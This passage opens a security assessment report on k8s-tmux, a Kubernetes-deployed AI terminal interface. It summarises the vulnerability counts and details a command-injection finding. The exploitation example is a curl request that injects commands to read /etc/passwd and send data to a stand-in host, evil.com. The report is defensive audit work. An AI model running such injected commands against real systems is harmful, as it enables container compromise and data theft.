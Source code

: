 # K8S-TMUX Security Assessment Report

**Assessment Date:** August 12, 2025  
**Assessor:** Senior Software Engineer - Security Expert  
**Project:** k8s-tmux AI Terminal Interface  
**Version:** Complete Terminal Deployment (prod/complete-terminal.yaml)  

## Executive Summary

This comprehensive security assessment of the k8s-tmux project reveals **CRITICAL SECURITY VULNERABILITIES** that pose significant risks to system integrity, data confidentiality, and service availability. The application contains multiple high-severity vulnerabilities including command injection, path traversal, and complete lack of authentication mechanisms.

**IMMEDIATE ACTION REQUIRED:** The current implementation should NOT be deployed in production without implementing the security fixes provided in this report.

### Risk Assessment Overview
- **Critical Vulnerabilities:** 8
- **High Severity:** 4  
- **Medium Severity:** 6
- **Low Severity:** 3
- **Overall Security Score:** 15/100 (CRITICAL - IMMEDIATE REMEDIATION REQUIRED)

---

## 1. Critical Security Vulnerabilities

### 1.1 Command Injection (CVE-2023-XXXX Equivalent)
**Severity:** CRITICAL  
**CVSS Score:** 9.8  
**Location:** Lines 175-181, 312-322

**Vulnerability Details:**
```python
command = data.get('command', '')
result = subprocess.run(['tmux', 'send-keys', '-t', 'main', command, 'Enter'])
```

**Risk:** Complete system compromise through arbitrary command execution
**Exploitation:** 
```bash
curl -X POST http://target:8080/api/send-command \
  -H "Content-Type: application/json" \
  -d '{"command": "ls; cat /etc/passwd; curl evil.com/exfiltrate"}'
```

**Impact:** 
- Full container compromise
- Data exfiltration
- Privilege escalation
- Lateral movement within Kubernetes cluster
